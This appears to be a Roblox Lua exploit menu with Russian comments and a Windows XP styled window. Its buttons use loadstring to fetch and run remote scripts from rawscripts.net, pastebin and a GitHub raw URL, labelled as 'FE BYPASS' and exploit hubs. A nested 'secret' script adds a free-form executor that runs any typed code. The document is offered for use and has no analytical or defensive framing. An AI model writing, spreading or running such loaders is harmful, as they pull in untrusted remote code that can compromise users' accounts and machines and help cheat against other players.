local player = game:GetService("Players").LocalPlayer
local gui = Instance.new("ScreenGui")
gui.Name = "SmetanaMainEZ59GETTUP"
gui.Parent = player:WaitForChild("PlayerGui")

-- Основной фрейм меню
local mainFrame = Instance.new("Frame")
mainFrame.Size = UDim2.new(0.5, 0, 0.6, 0)
mainFrame.Position = UDim2.new(0.25, 0, 0.2, 0)
mainFrame.BackgroundTransparency = 0
mainFrame.BackgroundColor3 = Color3.fromRGB(240, 240, 240)
mainFrame.BorderColor3 = Color3.fromRGB(0, 0, 0)
mainFrame.BorderSizePixel = 1
mainFrame.Active = true
mainFrame.Draggable = true
mainFrame.Parent = gui

-- Заголовочная панель (синяя, как в Windows XP)
local titleBar = Instance.new("Frame")
titleBar.Size = UDim2.new(1, 0, 0.07, 0)
titleBar.Position = UDim2.new(0, 0, 0, 0)
titleBar.BackgroundColor3 = Color3.fromRGB(0, 45, 150) -- Синий цвет Windows XP
titleBar.BorderSizePixel = 0
titleBar.Parent = mainFrame

-- Текст заголовка
local titleText = Instance.new("TextLabel")
titleText.Text = "smetanamainez59GETTUP"
titleText.Size = UDim2.new(0.8, 0, 1, 0)
titleText.Position = UDim2.new(0.02, 0, 0, 0)
titleText.TextColor3 = Color3.fromRGB(255, 255, 255)
titleText.BackgroundTransparency = 1
titleText.Font = Enum.Font.Arial
titleText.TextSize = 16
titleText.TextXAlignment = Enum.TextXAlignment.Left
titleText.Parent = titleBar

-- Кнопка закрытия (красная, как в Windows XP)
local closeBtn = Instance.new("TextButton")
closeBtn.Text = "X"
closeBtn.Size = UDim2.new(0.08, 0, 1, 0)
closeBtn.Position = UDim2.new(0.92, 0, 0, 0)
closeBtn.BackgroundColor3 = Color3.fromRGB(220, 0, 0)
closeBtn.BackgroundTransparency = 0
closeBtn.BorderSizePixel = 0
closeBtn.TextColor3 = Color3.fromRGB(255, 255, 255)
closeBtn.Font = Enum.Font.ArialBold
closeBtn.TextSize = 14
closeBtn.Parent = titleBar

closeBtn.MouseButton1Click:Connect(function()
    gui:Destroy()
end)

-- Кнопка сворачивания (синяя)
local minimizeBtn = Instance.new("TextButton")
minimizeBtn.Text = "_"
minimizeBtn.Size = UDim2.new(0.08, 0, 1, 0)
minimizeBtn.Position = UDim2.new(0.84, 0, 0, 0)
minimizeBtn.BackgroundColor3 = Color3.fromRGB(0, 45, 150)
minimizeBtn.BackgroundTransparency = 0
minimizeBtn.BorderSizePixel = 0
minimizeBtn.TextColor3 = Color3.fromRGB(255, 255, 255)
minimizeBtn.Font = Enum.Font.ArialBold
minimizeBtn.TextSize = 14
minimizeBtn.Parent = titleBar

-- Контейнер для кнопок скриптов
local buttonsFrame = Instance.new("Frame")
buttonsFrame.Size = UDim2.new(0.96, 0, 0.9, 0)
buttonsFrame.Position = UDim2.new(0.02, 0, 0.1, 0)
buttonsFrame.BackgroundTransparency = 1
buttonsFrame.Parent = mainFrame

-- Список скриптов
local scripts = {
    {
        Name = "secret",
        Script = [[
local player = game:GetService("Players").LocalPlayer
local gui = Instance.new("ScreenGui")
gui.Name = "TEST_EPIC_FACE"
gui.Parent = player:WaitForChild("PlayerGui")

-- Основной фрейм меню
local frame = Instance.new("Frame")
frame.Size = UDim2.new(0.4, 0, 0.6, 0)
frame.Position = UDim2.new(0.3, 0, 0.2, 0)
frame.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
frame.BorderColor3 = Color3.fromRGB(0, 0, 0)
frame.BorderSizePixel = 2
frame.Active = true
frame.Draggable = true
frame.Parent = gui

-- Фоновое изображение с затемнением
local background = Instance.new("ImageLabel")
background.Name = "Background"
background.Size = UDim2.new(1, 0, 1, 0)
background.Position = UDim2.new(0, 0, 0, 0)
background.Image = "rbxassetid://14301710584"
background.ImageColor3 = Color3.fromRGB(100, 100, 100) -- Затемнение
background.ScaleType = Enum.ScaleType.Slice
background.SliceCenter = Rect.new(100, 100, 100, 100)
background.SliceScale = 0.05
background.BorderSizePixel = 0
background.Parent = frame

-- Заголовок
local title = Instance.new("TextLabel")
title.Text = "TEST EPIC FACE"
title.Size = UDim2.new(1, 0, 0.1, 0)
title.Position = UDim2.new(0, 0, 0, 0)
title.TextColor3 = Color3.fromRGB(0, 0, 0)
title.BackgroundTransparency = 1
title.Font = Enum.Font.SourceSansBold
title.TextSize = 20
title.Parent = frame

-- Поле для ввода скрипта
local scriptBox = Instance.new("TextBox")
scriptBox.Name = "ScriptBox"
scriptBox.Size = UDim2.new(0.9, 0, 0.7, 0)
scriptBox.Position = UDim2.new(0.05, 0, 0.15, 0)
scriptBox.BackgroundColor3 = Color3.fromRGB(240, 240, 240)
scriptBox.BackgroundTransparency = 0.5
scriptBox.BorderColor3 = Color3.fromRGB(0, 0, 0)
scriptBox.BorderSizePixel = 1
scriptBox.Text = ""
scriptBox.TextColor3 = Color3.fromRGB(0, 0, 0)
scriptBox.TextXAlignment = Enum.TextXAlignment.Left
scriptBox.TextYAlignment = Enum.TextYAlignment.Top
scriptBox.Font = Enum.Font.Code
scriptBox.TextSize = 14
scriptBox.MultiLine = true
scriptBox.TextWrapped = true
scriptBox.ClearTextOnFocus = false
scriptBox.PlaceholderText = "Введите скрипт здесь..."
scriptBox.Parent = frame

-- Кнопка выполнения
local executeBtn = Instance.new("TextButton")
executeBtn.Name = "ExecuteButton"
executeBtn.Size = UDim2.new(0.4, 0, 0.08, 0)
executeBtn.Position = UDim2.new(0.05, 0, 0.87, 0)
executeBtn.BackgroundColor3 = Color3.fromRGB(200, 200, 200)
executeBtn.BorderColor3 = Color3.fromRGB(0, 0, 0)
executeBtn.BorderSizePixel = 1
executeBtn.Text = "Execute"
executeBtn.TextColor3 = Color3.fromRGB(0, 0, 0)
executeBtn.Font = Enum.Font.SourceSansBold
executeBtn.TextSize = 16
executeBtn.Parent = frame

executeBtn.MouseButton1Click:Connect(function()
    local success, error = pcall(function()
        loadstring(scriptBox.Text)()
    end)
    if not success then
        warn("Ошибка выполнения: " .. error)
    end
end)

-- Кнопка очистки
local clearBtn = Instance.new("TextButton")
clearBtn.Name = "ClearButton"
clearBtn.Size = UDim2.new(0.4, 0, 0.08, 0)
clearBtn.Position = UDim2.new(0.55, 0, 0.87, 0)
clearBtn.BackgroundColor3 = Color3.fromRGB(200, 200, 200)
clearBtn.BorderColor3 = Color3.fromRGB(0, 0, 0)
clearBtn.BorderSizePixel = 1
clearBtn.Text = "Clear"
clearBtn.TextColor3 = Color3.fromRGB(0, 0, 0)
clearBtn.Font = Enum.Font.SourceSansBold
clearBtn.TextSize = 16
clearBtn.Parent = frame

clearBtn.MouseButton1Click:Connect(function()
    scriptBox.Text = ""
end)

-- Кнопки быстрых скриптов
local quickScripts = {
    {
        Name = "FE BYPASS AHHH",
        Script = 'loadstring(game:HttpGet("https://rawscripts.net/raw/Universal-Script-FE-Bypass-Executor-46292"))()'
    },
    {
        Name = "no idea lol",
        Script = 'loadstring(game:HttpGet("https://pastebin.com/raw/3xHHRpsV", true))()'
    },
    {
        Name = "GhostHub",
        Script = 'loadstring(game:HttpGet("https://raw.githubusercontent.com/GhostPlayer352/Test4/main/GhostHub"))()'
    }
}

for i, scriptData in ipairs(quickScripts) do
    local btn = Instance.new("TextButton")
    btn.Name = scriptData.Name
    btn.Size = UDim2.new(0.9, 0, 0.08, 0)
    btn.Position = UDim2.new(0.05, 0, 0.25 + (i * 0.1), 0)
    btn.BackgroundColor3 = Color3.fromRGB(220, 220, 220)
    btn.BorderColor3 = Color3.fromRGB(0, 0, 0)
    btn.BorderSizePixel = 1
    btn.Text = scriptData.Name
    btn.TextColor3 = Color3.fromRGB(0, 0, 0)
    btn.Font = Enum.Font.SourceSans
    btn.TextSize = 14
    btn.Parent = frame
    
    btn.MouseButton1Click:Connect(function()
        scriptBox.Text = scriptData.Script
    end)
end

-- Текст внизу
local hint1 = Instance.new("TextLabel")
hint1.Text = "F6 = False"
hint1.Size = UDim2.new(0.3, 0, 0.05, 0)
hint1.Position = UDim2.new(0.05, 0, 0.78, 0)
hint1.TextColor3 = Color3.fromRGB(0, 0, 0)
hint1.BackgroundTransparency = 1
hint1.Font = Enum.Font.SourceSans
hint1.TextSize = 12
hint1.Parent = frame

local hint2 = Instance.new("TextLabel")
hint2.Text = "Fe bypassed Real"
hint2.Size = UDim2.new(0.3, 0, 0.05, 0)
hint2.Position = UDim2.new(0.05, 0, 0.83, 0)
hint2.TextColor3 = Color3.fromRGB(0, 0, 0)
hint2.BackgroundTransparency = 1
hint2.Font = Enum.Font.SourceSans
hint2.TextSize = 12
hint2.Parent = frame
]]
    },
    {
        Name = "ro xploitloool",
        Script = 'loadstring(game:HttpGet("https://rawscripts.net/raw/Universal-Script-FE-Bypass-Executor-46292"))()'
    },
    {
        Name = "brokenspawnthankyou",
        Script = 'loadstring(game:HttpGet("https://pastebin.com/raw/rCgeD409"))()'
    }
}

-- Создаем кнопки для каждого скрипта
for i, scriptData in ipairs(scripts) do
    local button = Instance.new("TextButton")
    button.Text = scriptData.Name
    button.Size = UDim2.new(0.95, 0, 0.15, 0)
    button.Position = UDim2.new(0.025, 0, 0.05 + (0.18 * (i-1)), 0)
    button.BackgroundColor3 = Color3.fromRGB(225, 225, 225)
    button.BorderColor3 = Color3.fromRGB(150, 150, 150)
    button.BorderSizePixel = 1
    button.TextColor3 = Color3.fromRGB(0, 0, 0)
    button.Font = Enum.Font.Arial
    button.TextSize = 14
    button.Parent = buttonsFrame
    
    -- Стиль кнопки Windows XP
    local buttonHighlight = Instance.new("Frame")
    buttonHighlight.Size = UDim2.new(1, 0, 1, 0)
    buttonHighlight.Position = UDim2.new(0, 0, 0, 0)
    buttonHighlight.BackgroundTransparency = 0.9
    buttonHighlight.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
    buttonHighlight.BorderSizePixel = 0
    buttonHighlight.ZIndex = 2
    buttonHighlight.Parent = button
    
    button.MouseEnter:Connect(function()
        buttonHighlight.BackgroundTransparency = 0.7
    end)
    
    button.MouseLeave:Connect(function()
        buttonHighlight.BackgroundTransparency = 0.9
    end)
    
    button.MouseButton1Click:Connect(function()
        loadstring(scriptData.Script)()
    end)
end

-- Нижняя панель (как в старых Windows)
local bottomBar = Instance.new("Frame")
bottomBar.Size = UDim2.new(1, 0, 0.05, 0)
bottomBar.Position = UDim2.new(0, 0, 0.95, 0)
bottomBar.BackgroundColor3 = Color3.fromRGB(240, 240, 240)
bottomBar.BorderColor3 = Color3.fromRGB(160, 160, 160)
bottomBar.BorderSizePixel = 1
bottomBar.Parent = mainFrame

-- Статус (как в Windows XP)
local statusText = Instance.new("TextLabel")
statusText.Text = "Готово"
statusText.Size = UDim2.new(0.9, 0, 1, 0)
statusText.Position = UDim2.new(0.02, 0, 0, 0)
statusText.TextColor3 = Color3.fromRGB(0, 0, 0)
statusText.BackgroundTransparency = 1
statusText.Font = Enum.Font.Arial
statusText.TextSize = 12
statusText.TextXAlignment = Enum.TextXAlignment.Left
statusText.Parent = bottomBar
